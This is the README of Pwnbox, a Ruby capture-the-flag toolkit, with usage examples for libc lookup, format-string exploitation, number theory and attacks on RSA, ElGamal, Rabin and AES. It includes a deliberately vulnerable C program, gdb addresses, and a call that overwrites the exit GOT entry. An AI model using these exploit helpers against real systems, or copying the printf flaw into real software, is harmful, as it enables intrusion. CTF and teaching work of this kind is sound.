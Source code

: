 # Pwnbox

[![Build Status](https://travis-ci.org/jakkdu/pwnbox.svg?branch=master)](https://travis-ci.org/jakkdu/pwnbox)

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
puts "Path : #{libc.path}"
puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

### Number theory
```ruby
Pwnbox::Number.gcd(a, b)

# return [gcd, x, y] where x * a + y * b = gcd
Pwnbox::Number.extended_gcd(a, b)

# solve ax = b mod m
Pwnbox::Number.solve_linear_congruence_equation(a, b, m)

# return a^-1 mod n
Pwnbox::Number.mod_inverse(a, n)

# return x where x^2 = a mod p
Pwnbox::Number.mod_prime_sqrt(a, p)

# return x where x^2 = a mod p * q
Pwnbox::Number.mod_composite_sqrt(a, p, q)

# chinese remainder theorem
Pwnbox::Number.chinese_remainder_theorem([a1, a2, a3], [n1, n2, n3])

# nth root, works for big integer which is pefect n square
Pwnbox::Number.nth_root(a)
```

### RSA
```ruby
# factorize if p, q is close
Pwnbox::RSA::factorize_if_close_prime(n)

# find non trivial factors
Pwnbox::RSA::find_nontrivial_factors([n1, n2, ...])

# Wiener's attack
Pwnbox::RSA::wiener(e, n)

# Weak Hastad's broadcast attack (Only for same plaintext)
Pwnbox::RSA::weak_hastad([c_1, c_2, ..., c_e], [n_1, n_2, ..., n_e])

# Franklin-Reiter related message attack for m2 = a * m1 + b
Pwnbox::RSA::franklin_reiter(a, b, c1, c2, n)
```

### ElGamal
```ruby
# encrypt
pub = Pwnbox::ElGamal::PubKey.new(p, g, h)
pub.encrypt(m)

# decrypt
priv = Pwnbox::ElGamal::PrivKey.new(p, g, x)
priv.decrypt(c)
```

### Rabin
```ruby
# encrypt
Pwnbox::Rabin.encrypt(m, n)

# decrypt
Pwnbox::Rabin.decrypt(c, p, q)

# factorize if two plaintexts are given
Pwnbox::Rabin.factorize([r, s])
```

### AES
```ruby
# inverse round key
Pwnbox::AES.inverse_round_key(round_key)
```
